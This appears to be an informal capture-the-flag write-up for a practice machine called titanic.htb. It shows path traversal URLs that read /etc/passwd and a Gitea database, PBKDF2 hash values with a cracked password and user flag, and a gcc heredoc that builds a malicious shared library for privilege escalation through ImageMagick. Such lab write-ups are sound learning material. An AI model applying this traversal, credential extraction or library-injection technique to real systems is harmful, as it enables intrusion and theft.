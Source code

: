 titanic.htb 
============

nmap result:
------------

Open port: 22,80 

80 --> titanic.htb 

enumeration:
------------

http://titanic.htb/download?ticket=../../../../etc/passwd ==> works 

http://dev.titanic.htb


i found the web page is using gitea  - it is a open source 

http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db  --> gives the database 

in that database i found the user table contains creds..

if found it using the pbkd2 hash algorithm:

[DK = PBKDF2(Password, Salt, PRF, c, dkLen)]

PRF ==> rand c==> iteration(50000)    dkLen ==> length (50) 

[password] = e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56

[Salt] = 8bf3e3452b78544f8bee9400d6936d34

[PRF] = 0ce6f07fc9b557bc070fa7bef76a0d15

[c] = 50000

[dkLen] = 50


i cracked the password:

[Password] : 25282528

user.txt --> a8d3b05650e382086b9f0ecba9fcd252
=============================================

previledge escalation:
-----------------------

/opt/scripts/identify_images.sh  -->  script to retrieve info about jpg and store in metadata.log using the tool "magick"

magick -version ==> ImageMagick 7.1.1-35 Q16-HDRI x86_64 

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){

    system("cat /root/root.txt"); 

    exit(0); 

    } 

    EOF
